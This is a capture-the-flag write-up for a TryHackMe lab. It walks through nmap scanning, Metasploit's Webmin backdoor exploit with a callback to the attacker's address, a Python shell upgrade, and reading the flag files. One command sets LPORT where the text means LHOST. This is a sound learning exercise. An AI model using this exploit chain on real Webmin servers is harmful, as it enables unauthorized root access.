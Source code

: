 ```yaml
---
title: Source writeup
published: true
---
```


# ***TryHackMe***- Source : Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.

Link to THM Room : [source](https://tryhackme.com/room/source)

## About the room :   

This is pretty easy room created by [DarkStar7471](https://tryhackme.com/p/DarkStar7471)<br>
Since, this room is only 5 days old so I decided to root the machine as quickly as possible, hence, usig Metasploit.<br>
However if you are not sure about using Metasploit, I suggest learning and completing the room [Metasploit](https://tryhackme.com/room/rpmetasploit).<br>
Well without any further ado **let's break in**.

### Methodology :

- **Port Scanning : nmap**
- **Exploit and privilege escialtion : metasploit**

**Hop into your terminal**

+ ***nmap to enumerate the ports running on the machine***

>> **nmap -sC -sV -Pn -oN source 10.10.x.x**

<img src="/images/nmap.jpg">

Right we have ssh running on 22 and Webmin httpd on 10000.<br>
Let's hop into browser to check what's in the web server.

***Note the website is running on SSL(Secure Socket Layer), therefore, the link would be https://10.10.x.x:10000.***

<img src="/images/weblogin.JPG">

And here's a login page.<br>
We could definately try bute-forcing with **Hydra** or use **sqlmap** to check the database.<br>
But all these require a little more enumeration to follow, so let's just hope into metasploit for convenience.

+ ***metasploit***

**Back into terminal**   

Type **msfconsole** to fire up metasploit framework.

Once it starts use the **search** command to search for exploits related to **webmin**

>> search webmin

<img src="/images/search.JPG">

Cool there's exploits for webmin we can use.<br>
Exploits for Remote Command Execution available<br>
However, here's an exploit available as webmin_backdoor which will do our task to create a **backdoor** into admin's machine.<br>
If we can get root privilege straight through the backdoor, why not use it ???<br>

We can simply set the payload with **use exploit_number** or **use full_path** command.

>> use 2

<img src="/images/use2.JPG">

**show options** to veiw the options available for payload.<br>
Simply set RHOSTS - the target machine, RPORT - 10000(here its set by default), LHOST - the listening ip address(our tun0 ip provided by openvpn)<br>
Make sure to set SSL - true(because the server is using SSL).

>> set RHOSTS 10.10.x.x

>> set LPORT your_vpn_ip 

>> set SSL true 

With all the parameters set we are good to go and run the payload. Type **run** or **exploit**

>> run

<img src="/images/runexp.JPG">

In no time we get out **session**<br>
If you check with **whoami** , we're in as **root**<br>
Sweet eh ???

Now here we are **root**, but since this shell is unstable at this moment, we can use **python** to get a stable shell.<br>
Simply type the following commands to get a stable shell :

>> shell

>> python -c "import pty;pty.spawn('/bin/bash')"

<img src="/images/import.JPG">

Here we are simply using **python** to spawn a shell i.e /bin/bash.<br>
Type the following commands to make use of /bashrc (can't explain everything here, just know you can't use *clear* command, etc.. yet so)

>> export TERM=xterm

Once this is done we are able to clear screen or use our arrow keys to neviagte to previously used commands.<br>
Well, let's get our **user.txt** and **root.txt** asap...

>> cd /home
>> ls
>> cd dark
>> ls
>> cat user.txt

<img src="/images/user.JPG"> 

Got our first flag i.e user.txt

>> cd /root
>> ls
>> cat root.txt

or simply

>> cat /root/root.txt

<img src="/images/root.JPG"> 

And there we are, **root flag** staring at us. :D

***Finally completed the room, congrats !!!***

***This was fairly an easy machine, Kudos! to DarkStar7471 for this amazing room***<br>
**Thank you for reading, hope you enjoyed and learned something !!! ;)***

***PS: If you found a sotphisticated way to root this machine other than using Metasploit do add a writeup or DM me on [instagram](https://www.instagram.com) and share your exerience so that I may learn too !***



